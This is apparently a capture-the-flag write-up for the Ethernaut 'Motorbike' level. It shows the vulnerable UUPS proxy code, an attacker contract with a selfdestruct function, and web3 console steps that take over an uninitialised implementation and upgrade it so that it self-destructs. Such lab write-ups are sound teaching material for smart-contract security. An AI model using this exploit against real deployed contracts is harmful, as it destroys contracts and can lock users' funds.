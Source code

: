 # Motorbike

## Give code:
```shell
import ...

contract Motorbike {
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    function _delegate(address implementation) internal virtual {
        ...
    }

    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        ...
    }
}

contract Engine is Initializable {
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
      ...
    }
    
    function _setImplementation(address newImplementation) private {
       ...
    }
}
```
## Attack code:
```shell

...
contract Attack {
    function nuke() public {
        selfdestruct(address(0));
    }
}
```

## Hack:

### Step1:

Get current implementationa address. See calculated constant above `_IMPLEMENTATION_SLOT`. This is the second arg here.

`implementationContractAddress = await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc');`

### Step2:

Remove left pad in address. Slots are 32 byte, while an address is only 20.

`implementationContractAddress = '0x' + implementationContractAddress.slice(-40);`

### Step3:

Calculate `initialize()` function selector.

`initializeSelector = web3.eth.abi.encodeFunctionSignature("initialize()");`

### ### Step4:

Become the upgrader. 

`await web3.eth.sendTransaction({from: player, to: implementationContractAddress, data: initializeSelector`})

Step5:

Confirm upgrader

`upgraderSelector = web3.eth.abi.encodeFunctionSignature("upgrader()");`

`await web3.eth.call({from: player, to: implementationContractAddress, data: upgraderSelector}).then(v => '0x' + v.slice(-40).toLowerCase()) == player.toLowerCase()`

This should return `true`, showing that we are now privileged.

### Step6:

Deploy `Attack` contract (see above) and create variables for next phase.

Create var in browser console for `Attack` contract

`attackContractAddress = '0x...'`

`nukeSelector = web3.eth.abi.encodeFunctionSignature("nuke()");`

```
upgradeSignature = {
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: 'newImplementation'
        },
        {
            type: 'bytes',
            name: 'data'
        }
    ]
}
```

`params = [attackContractAddress, nukeSelector]`

`upgradeData = web3.eth.abi.encodeFunctionCall(upgradeSignature, params)`

### Step7:

Build and send tx

`await web3.eth.sendTransaction({from: player, to: implementationContractAddress, data: upgradeData})`


## Notes:

Upgradable contracts must be initialized on deployment. We are able to become the `upgrader` by abusing this.

We then 'upgrade' the implementation contract to some custom logic with a `nuke` function that self destructs the implementation. The real trouble here is that with the new commonly used proxy pattern (UUPS), the functionality that gives us an ability to redeploy a new implementation, resides in the implementation. This hack renders the proxy and previous implementation toast.